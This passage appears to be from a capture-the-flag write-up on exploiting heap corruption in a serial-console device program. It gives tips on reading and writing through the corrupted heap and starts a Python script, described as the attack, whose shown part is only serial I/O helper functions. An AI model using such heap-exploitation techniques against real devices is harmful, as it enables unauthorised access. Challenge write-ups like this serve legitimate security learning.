Before using an exploited heap, there are a few things worth mentioning:
* The act of reading a value will erase it, so you may want to write it back out.
* Null bytes can be included in strings.
* The act of writing a value will include a null byte string terminator.  This may clobber something important.  This can be fixed by writing out more than needed until a good spot for a null byte is reached.

The following Python3 script implements the attack and gets the flag:

	import serial
	import re

	port = 'COM42'
	rate = 115200

	s = serial.Serial(port,rate,timeout=3.0,write_timeout=3.0,inter_byte_timeout=3.0)

	def print_b(message):
		print(message.decode(encoding='ascii',errors='ignore'))

	def read_until(match=b''):
		message = bytearray()
		while (True):
			data = s.read(1)
			if (len(data) == 0):
				break
			message += data
			if (len(match) > 0 and match in message):
				break
		print_b(message)
		return message

	def write(line):
		line = bytearray(line)
		line.extend(b'\n')
		s.write(line)

	def connect_device(name,key):
		write(b'2')
		read_until(b'Enter device name: \n')
		write(name)
		read_until(b'Enter pairing key: \n')
		write(key)
		read_until(b'5. Exit\n')

	def disconnect_device(number):
		write(b'3')
		read_until(b'Enter number of device: ')
		write(number)
		read_until(b'5. Exit\n')

	def modify_device(number,name,key):
		write(b'4')
		read_until(b'Enter number of device: ')
		write(number)
		read_until(b'Enter new name: ')
		write(name)
		read_until(b'Enter new key: ')
		write(key)
		return read_until(b'5. Exit\n')
